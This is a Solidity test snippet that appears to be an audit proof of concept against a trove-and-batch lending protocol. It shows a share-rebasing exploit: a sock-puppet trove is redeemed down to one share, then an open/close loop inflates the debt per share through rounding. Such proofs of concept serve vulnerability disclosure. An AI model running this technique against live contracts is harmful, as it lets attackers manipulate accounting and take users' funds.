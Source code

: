 ```solidity

        // Open 2 troves so we get enough interest
        // 1 will be redeemed down to 1 wei
        uint256 ATroveId = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MAX_ANNUAL_INTEREST_RATE);
        // Sock Puppet Trove | Opened second so we can redeem this one | We need to redeem this one so we can inflate the precision loss
        uint256 BTroveId = openTroveAndJoinBatchManager(B, 100 ether, MIN_DEBT, B, MAX_ANNUAL_INTEREST_RATE);


        // MUST accrue to rebase shares
        // Limit to one block so this attack is basically unavoidable
        if(WITH_INTEREST) {
            vm.warp(block.timestamp + 12);
        }


        LatestBatchData memory b4Batch = troveManager.getLatestBatchData(address(B));

        // TODO: Open A, Mint 1 extra (forgiven to A)
        _addOneDebtAndEnsureItDoesntMintShares(ATroveId, A); /// @audit MED impact

        LatestBatchData memory afterBatch = troveManager.getLatestBatchData(address(B));

        assertEq(b4Batch.entireDebtWithoutRedistribution + 1, afterBatch.entireDebtWithoutRedistribution, "Debt is credited to batch");
        
        // Closing A here will credit to B and Batch, that's ok but not enough
        LatestTroveData memory trove = troveManager.getLatestTroveData(BTroveId);
        uint256 bEntireDebtB4 = trove.entireDebt;

        vm.startPrank(A);
        collateralRegistry.redeemCollateral(bEntireDebtB4, 100, 1e18); // 2 debt, 1 share (hopefully)
        vm.stopPrank();

        uint256 sharesAfterRedeem = _getBatchDebtShares(BTroveId);
        assertEq(sharesAfterRedeem, 1, "Must be down to 1, rebased");

        // Let's have B get 1 share, 2 debt | Now it will be 1 | 1 because A is socializing that share
        LatestTroveData memory bAfterRedeem = troveManager.getLatestTroveData(BTroveId);
        assertEq(bAfterRedeem.entireDebt, 1, "Must be 1, Should be 2 for exploit"); // NOTE: it's one because of the division on total shares

        // Close A (also remove from batch is fine)
        closeTrove(A, ATroveId); 

        // Now B has rebased the Batch to 1 Share, 2 Debt
        LatestTroveData memory afterClose = troveManager.getLatestTroveData(BTroveId);
        assertEq(afterClose.entireDebt, 2, "Becomes 2"); // Note the debt becomes 2 here because of the round down on what A needs to repay

    
        // === 2: Rebase to 100+ === //
        // We need to rebase to above 100
        uint256 x;
        while(x++ < 100) {
            // Each iteration adds 1 wei of debt to the Batch, while leaving the Shares at 1
            _openCloseRemainderLoop(1, BTroveId);
        }

```